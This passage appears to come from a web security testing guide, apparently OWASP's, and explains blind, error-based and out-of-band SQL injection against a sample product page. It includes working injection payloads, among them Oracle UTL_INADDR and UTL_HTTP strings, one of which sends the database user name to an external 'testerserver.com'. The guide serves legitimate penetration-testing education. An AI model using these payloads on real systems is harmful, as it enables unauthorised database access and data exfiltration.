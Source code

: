 `SELECT field1, field2, field3 FROM Users WHERE Id='1' OR LENGTH(username)=N AND '1' = '1'`

The query returns either true or false. If we obtain true, then we have completed the inference and, therefore, we know the value of the parameter. If we obtain false, this means that the null character is present in the value of the parameter, and we must continue to analyze the next parameter until we find another null value.

The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

#### Error Based Exploitation Technique

An Error based exploitation technique is useful when the tester for some reason can’t exploit the SQL injection vulnerability using other techniques such as UNION. The Error-based technique consists of forcing the database to perform some operation in which the result will be an error. The point here is to try to extract some data from the database and show it in the error message. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`https://www.example.com/product.php?id=10`

The malicious request would be (e.g. Oracle 10g):

`https://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

`ORA-292257: host SCOTT unknown`

Then the tester can manipulate the parameter passed to the GET_HOST_NAME() function and the result will be shown in the error message.

#### Out-of-Band Exploitation Technique

This technique is very useful when the tester finds a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known about the outcome of an operation. The technique consists of the use of DBMS functions to perform an out-of-band connection and deliver the results of the injected query as part of the request to the tester’s server. Like the error-based techniques, each DBMS has its functions. Check for specific DBMS sections.

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`https://www.example.com/product.php?id=10`

The malicious request would be:

`https://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`
